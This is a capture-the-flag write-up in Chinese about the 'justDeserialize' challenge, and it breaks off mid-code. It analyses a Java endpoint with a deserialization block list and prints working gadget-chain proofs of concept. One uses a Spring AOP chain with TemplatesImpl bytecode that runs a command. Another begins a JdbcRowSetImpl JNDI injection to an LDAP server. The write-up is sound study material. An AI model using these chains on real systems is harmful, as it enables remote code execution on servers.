










# justDeserialize 绕过黑名单挖掘利用链-先知社区

> **来源**: https://xz.aliyun.com/news/17476  
> **文章ID**: 17476

---

# justDeserialize 绕过黑名单挖掘利用链

## 前言

当时线下的时候很多题，当时一开始下不了附件，之后看了一下，也只有一个 web 题目，做了半天，拿着工具倒着推，一步一步看了半天，也卡着没有做出来，之后看到<https://gsbp0.github.io/post/%E8%BD%AF%E4%BB%B6%E6%94%BB%E9%98%B2%E8%B5%9B%E7%8E%B0%E5%9C%BA%E8%B5%9B%E4%B8%8A%E5%AF%B9justdeserialize%E6%94%BB%E5%87%BB%E7%9A%84%E5%87%A0%E6%AC%A1%E5%B0%9D%E8%AF%95/#%E7%AC%AC%E4%BA%8C%E6%AD%A5>  
学习学习

## 源码分析

目录结构



一看就是有黑名单的，还给了自己写的类

依赖



路由代码

```
package com.example.ezjav.controller;

import com.example.ezjav.utils.MyObjectInputStream;
import java.io.ByteArrayInputStream;
import java.util.Base64;
import org.springframework.web.bind.annotation.RequestBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
/* loaded from: backdoor.class */
public class backdoor {
    static String banner = "Welcome to java";

    @RequestMapping({"/"})
    public String index() throws Exception {
        return banner;
    }

    @RequestMapping({"/read"})
    public String read(@RequestBody String body) {
        if (body != null) {
            try {
                byte[] data = Base64.getDecoder().decode(body);
                String temp = new String(data);
                if (temp.contains("naming") || temp.contains("com.sun") || temp.contains("jdk.jfr")) {
                    return "banned";
                }
                ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(data);
                MyObjectInputStream objectInputStream = new MyObjectInputStream(byteArrayInputStream);
                Object object = objectInputStream.readObject();
                return object.getClass().toString();
            } catch (Exception e) {
                return e.toString();
            }
        }
        return "ok";
    }
}

```

一共两个防护，第一个就是对我们的字符串的防护  
这个 UTF8 已经考过很多次了，而且本次研究的重点也不是这个，直接删除

然后就是自定义的 MyObjectInputStream类了

```
package com.example.ezjav.utils;

import java.io.BufferedReader;
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.util.ArrayList;

/* loaded from: MyObjectInputStream.class */
public class MyObjectInputStream extends ObjectInputStream {
    private String[] denyClasses;

    public MyObjectInputStream(ByteArrayInputStream var1) throws IOException {
        super(var1);
        ArrayList<String> classList = new ArrayList<>();
        InputStream file = MyObjectInputStream.class.getResourceAsStream("/blacklist.txt");
        BufferedReader var2 = new BufferedReader(new InputStreamReader(file));
        while (true) {
            String var4 = var2.readLine();
            if (var4 != null) {
                classList.add(var4.trim());
            } else {
                this.denyClasses = new String[classList.size()];
                classList.toArray(this.denyClasses);
                return;
            }
        }
    }

    @Override // java.io.ObjectInputStream
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        String className = desc.getName();
        int var5 = this.denyClasses.length;
        for (int var6 = 0; var6 < var5; var6++) {
            String denyClass = this.denyClasses[var6];
            if (className.startsWith(denyClass)) {
                throw new InvalidClassException("Unauthorized deserialization attempt", className);
            }
        }
        return super.resolveClass(desc);
    }
}

```

直接在 resolveClass 禁用，是不能使用 UTF-8 绕过的，只能使用一些新的手法去绕过了

而且黑名单 ban 的类也是挺多的

```
javax.management.BadAttributeValueExpException
com.sun.org.apache.xpath.internal.objects.XString
java.rmi.MarshalledObject
java.rmi.activation.ActivationID
javax.swing.event.EventListenerList
java.rmi.server.RemoteObject
javax.swing.AbstractAction
javax.swing.text.DefaultFormatter
java.beans.EventHandler
java.net.Inet4Address
java.net.Inet6Address
java.net.InetAddress
java.net.InetSocketAddress
java.net.Socket
java.net.URL
java.net.URLStreamHandler
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
java.rmi.registry.Registry
java.rmi.RemoteObjectInvocationHandler
java.rmi.server.ObjID
java.lang.System
javax.management.remote.JMXServiceUR
javax.management.remote.rmi.RMIConnector
java.rmi.server.RemoteObject
java.rmi.server.RemoteRef
javax.swing.UIDefaults$TextAndMnemonicHashMap
java.rmi.server.UnicastRemoteObject
java.util.Base64
java.util.Comparator
java.util.HashMap
java.util.logging.FileHandler
java.security.SignedObject
javax.swing.UIDefaults
```

## springAOP 原生链

这里会使用到 springAOP 的原生链，当时确实还不知道这个链子

使用 GSBP 师傅的 poc 简单分析一下

### POC

```
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.support.DefaultIntroductionAdvisor;
import org.springframework.core.Ordered;

import java.lang.reflect.*;
import java.lang.reflect.Proxy;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;

public class main {
    public static void main(String[] args) throws Exception {


        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec("calc");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Reflections.setFieldValue(templates, "_bytecodes", bytes);
        Reflections.setFieldValue(templates, "_name", "GSBP");
        Reflections.setFieldValue(templates, "_tfactory", null);
        Method method=templates.getClass().getMethod("newTransformer");//获取newTransformer方法

        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(templates);
        AspectJAroundAdvice advice = new AspectJAroundAdvice(method,new AspectJExpressionPointcut(),factory);
        Proxy proxy1 = (Proxy) getAProxy(advice,Advice.class);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(123);
        Reflections.setFieldValue(badAttributeValueExpException, "val", proxy1);
        Util.deserialize(Util.serialize(badAttributeValueExpException));

    }
    public static Object getBProxy(Object obj,Class[] clazzs) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), clazzs, handler);
        return proxy;
    }
    public static Object getAProxy(Object obj,Class<?> clazz) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        AbstractAspectJAdvice advice = (AbstractAspectJAdvice) obj;
        DefaultIntroductionAdvisor advisor = new DefaultIntroductionAdvisor((Advice) getBProxy(advice, new Class[]{MethodInterceptor.class}));
        advisedSupport.addAdvisor(advisor);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{clazz}, handler);
        return proxy;
    }
}
```

### 调试分析

这里简单分析一下

首先进入很熟悉的类 BadAttributeValueExpException

```
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
       ObjectInputStream.GetField gf = ois.readFields();
       Object valObj = gf.get("val", null);

       if (valObj == null) {
           val = null;
       } else if (valObj instanceof String) {
           val= valObj;
       } else if (System.getSecurityManager() == null
               || valObj instanceof Long
               || valObj instanceof Integer
               || valObj instanceof Float
               || valObj instanceof Double
               || valObj instanceof Byte
               || valObj instanceof Short
               || valObj instanceof Boolean) {
           val = valObj.toString();
       } else { // the serialized object is from a version without JDK-8019292 fix
           val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
       }
   }
}
```



其中 valObj 被赋值为我们的代理类，会触发它的 invoke 方法

invoke:215, JdkDynamicAopProxy (org.springframework.aop.framework) [1]

```
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
    Object oldProxy = null;
    boolean setProxyContext = false;
    TargetSource targetSource = this.advised.targetSource;
    Object target = null;

    Object var12;
    try {
        if (!this.equalsDefined && AopUtils.isEqualsMethod(method)) {
            Boolean var18 = this.equals(args[0]);
            return var18;
        }

        if (!this.hashCodeDefined && AopUtils.isHashCodeMethod(method)) {
            Integer var17 = this.hashCode();
            return var17;
        }

        if (method.getDeclaringClass() == DecoratingProxy.class) {
            Class var16 = AopProxyUtils.ultimateTargetClass(this.advised);
            return var16;
        }

        Object retVal;
        if (!this.advised.opaque && method.getDeclaringClass().isInterface() && method.getDeclaringClass().isAssignableFrom(Advised.class)) {
            retVal = AopUtils.invokeJoinpointUsingReflection(this.advised, method, args);
            return retVal;
        }

        if (this.advised.exposeProxy) {
            oldProxy = AopContext.setCurrentProxy(proxy);
            setProxyContext = true;
        }

        target = targetSource.getTarget();
        Class<?> targetClass = target != null ? target.getClass() : null;
        List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);
        if (chain.isEmpty()) {
            Object[] argsToUse = AopProxyUtils.adaptArgumentsIfNecessary(method, args);
            retVal = AopUtils.invokeJoinpointUsingReflection(target, method, argsToUse);
        } else {
            MethodInvocation invocation = new ReflectiveMethodInvocation(proxy, target, method, args, targetClass, chain);
            retVal = invocation.proceed();
        }

        Class<?> returnType = method.getReturnType();
        if (retVal != null && retVal == target && returnType != Object.class && returnType.isInstance(proxy) && !RawTargetAccess.class.isAssignableFrom(method.getDeclaringClass())) {
            retVal = proxy;
        } else if (retVal == null && returnType != Void.TYPE && returnType.isPrimitive()) {
            throw new AopInvocationException("Null return value from advice does not match primitive return type for: " + method);
        }

        var12 = retVal;
    } finally {
        if (target != null && !targetSource.isStatic()) {
            targetSource.releaseTarget(target);
        }

        if (setProxyContext) {
            AopContext.setCurrentProxy(oldProxy);
        }

    }

    return var12;
}
```

然后进入 proceed 方法

这个方法会一路调用到我们的 invokeAdviceMethodWithGivenArgs 方法

```
protected Object invokeAdviceMethodWithGivenArgs(Object[] args) throws Throwable {
    Object[] actualArgs = args;
    if (this.aspectJAdviceMethod.getParameterCount() == 0) {
        actualArgs = null;
    }

    try {
        ReflectionUtils.makeAccessible(this.aspectJAdviceMethod);
        return this.aspectJAdviceMethod.invoke(this.aspectInstanceFactory.getAspectInstance(), actualArgs);
    } catch (IllegalArgumentException var4) {
        throw new AopInvocationException("Mismatch on arguments to advice method [" + this.aspectJAdviceMethod + "]; pointcut expression [" + this.pointcut.getPointcutExpression() + "]", var4);
    } catch (InvocationTargetException var5) {
        throw var5.getTargetException();
    }
}
```

而这个方法就是我们的 sink 点了，可以看出来如果可以控制我们的参数，那么是可以实现调用任意类的任意方法的

而控制一直跟踪的话是来源于我们的 invoke 方法

```
List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);
```

跟进 getInterceptorsAndDynamicInterceptionAdvice 方法

```
public List<Object> getInterceptorsAndDynamicInterceptionAdvice(Method method, @Nullable Class<?> targetClass) {
    MethodCacheKey cacheKey = new MethodCacheKey(method);
    List<Object> cached = (List)this.methodCache.get(cacheKey);
    if (cached == null) {
        cached = this.advisorChainFactory.getInterceptorsAndDynamicInterceptionAdvice(this, method, targetClass);
        this.methodCache.put(cacheKey, cached);
    }

    return cached;
}
```

目标是返回的 cached 为我们的恶意构造的类

因为缓存中一开是没有的，所以需要调用到 getInterceptorsAndDynamicInterceptionAdvice 方法

```
public List<Object> getInterceptorsAndDynamicInterceptionAdvice(Advised config, Method method, @Nullable Class<?> targetClass) {
    AdvisorAdapterRegistry registry = GlobalAdvisorAdapterRegistry.getInstance();
    Advisor[] advisors = config.getAdvisors();
    List<Object> interceptorList = new ArrayList(advisors.length);
    Class<?> actualClass = targetClass != null ? targetClass : method.getDeclaringClass();
    Boolean hasIntroductions = null;
    Advisor[] var9 = advisors;
    int var10 = advisors.length;

    for(int var11 = 0; var11 < var10; ++var11) {
        Advisor advisor = var9[var11];
        if (advisor instanceof PointcutAdvisor) {
            PointcutAdvisor pointcutAdvisor = (PointcutAdvisor)advisor;
            if (config.isPreFiltered() || pointcutAdvisor.getPointcut().getClassFilter().matches(actualClass)) {
                MethodMatcher mm = pointcutAdvisor.getPointcut().getMethodMatcher();
                boolean match;
                if (mm instanceof IntroductionAwareMethodMatcher) {
                    if (hasIntroductions == null) {
                        hasIntroductions = hasMatchingIntroductions(advisors, actualClass);
                    }

                    match = ((IntroductionAwareMethodMatcher)mm).matches(method, actualClass, hasIntroductions);
                } else {
                    match = mm.matches(method, actualClass);
                }

                if (match) {
                    MethodInterceptor[] interceptors = registry.getInterceptors(advisor);
                    if (mm.isRuntime()) {
                        MethodInterceptor[] var17 = interceptors;
                        int var18 = interceptors.length;

                        for(int var19 = 0; var19 < var18; ++var19) {
                            MethodInterceptor interceptor = var17[var19];
                            interceptorList.add(new InterceptorAndDynamicMethodMatcher(interceptor, mm));
                        }
                    } else {
                        interceptorList.addAll(Arrays.asList(interceptors));
                    }
                }
            }
        } else if (advisor instanceof IntroductionAdvisor) {
            IntroductionAdvisor ia = (IntroductionAdvisor)advisor;
            if (config.isPreFiltered() || ia.getClassFilter().matches(actualClass)) {
                Interceptor[] interceptors = registry.getInterceptors(advisor);
                interceptorList.addAll(Arrays.asList(interceptors));
            }
        } else {
            Interceptor[] interceptors = registry.getInterceptors(advisor);
            interceptorList.addAll(Arrays.asList(interceptors));
        }
    }

    return interceptorList;
}
```

需要 return 成功，那么只需要看 add 的逻辑，而 add 都是 add 的 interceptors

```
MethodInterceptor[] interceptors = registry.getInterceptors(advisor);
```

跟进 getInterceptors 方法

```
public MethodInterceptor[] getInterceptors(Advisor advisor) throws UnknownAdviceTypeException {
    List<MethodInterceptor> interceptors = new ArrayList(3);
    Advice advice = advisor.getAdvice();
    if (advice instanceof MethodInterceptor) {
        interceptors.add((MethodInterceptor)advice);
    }

    Iterator var4 = this.adapters.iterator();

    while(var4.hasNext()) {
        AdvisorAdapter adapter = (AdvisorAdapter)var4.next();
        if (adapter.supportsAdvice(advice)) {
            interceptors.add(adapter.getInterceptor(advisor));
        }
    }

    if (interceptors.isEmpty()) {
        throw new UnknownAdviceTypeException(advisor.getAdvice());
    } else {
        return (MethodInterceptor[])interceptors.toArray(new MethodInterceptor[0]);
    }
}
```

需要满足实现 MethodInterceptor 接口才可以 return

再结合我们的 payload 的构造大概弄清楚了原理

实际上就是溯源到控制我们的恶意类，然后通过动态代理去链接到我们的 sink 点，实现控制 source 到 sink 的攻击

## JdbcRowSetImpl 攻击

有了上面的利用链，这道题目就比较简单了，因为上面的链子使用到的类都没有被 ban 掉

只需要套上我们的 JdbcRowSetImpl 来打一个 JNDI 就 ok 了

当然这里需要注意的就是 BadAttributeValueExpException 被 ban 掉了

需要我们替换，根据题目给出的 user

```
package com.example.ezjav.utils;

import java.io.Serializable;
import java.lang.reflect.Method;
import java.util.Comparator;

/* loaded from: User.class */
public class User implements Serializable, Comparator {
    public String username;
    public String password;
    public Object compare;

    public User(String user, String pass, String cmp) {
        this.username = user;
        this.password = pass;
        this.compare = cmp;
    }

    @Override // java.util.Comparator
    public int compare(Object o1, Object o2) {
        try {
            Method m = this.compare.getClass().getDeclaredMethod("compare", Object.class, Object.class);
            m.setAccessible(true);
            m.invoke(this.compare, o1, o2);
            return 0;
        } catch (Exception e) {
            e.printStackTrace();
            return 0;
        }
    }
}

```

很明显是在叫我们打 CB 那一套，因为只需要实现触发可控对象的方法就 ok 了

```
@Override // java.util.Comparator
public int compare(Object o1, Object o2) {
    try {
        Method m = this.compare.getClass().getDeclaredMethod("compare", Object.class, Object.class);
        m.setAccessible(true);
        m.invoke(this.compare, o1, o2);
        return 0;
    } catch (Exception e) {
        e.printStackTrace();
        return 0;
    }
}
```

这里重载还给了提示

首先就是如何触发 compare 方法了，这个 CB 链是有说过的

使用 GSBP 的 POC，主要懒得再次去写一个，但是这里因为打 jndi 的话没有使用到

### POC

```

import com.example.ezjav.utils.MyObjectInputStream;
import com.sun.rowset.JdbcRowSetImpl;
import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.support.DefaultIntroductionAdvisor;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;


public class Test {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:1389/Deserialize/Jackson/Command/Y2FsYw==");
        Method method=jdbcRowSet.getClass().getMethod("getDatabaseMetaData");
        System.out.println(method);
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(jdbcRowSet);
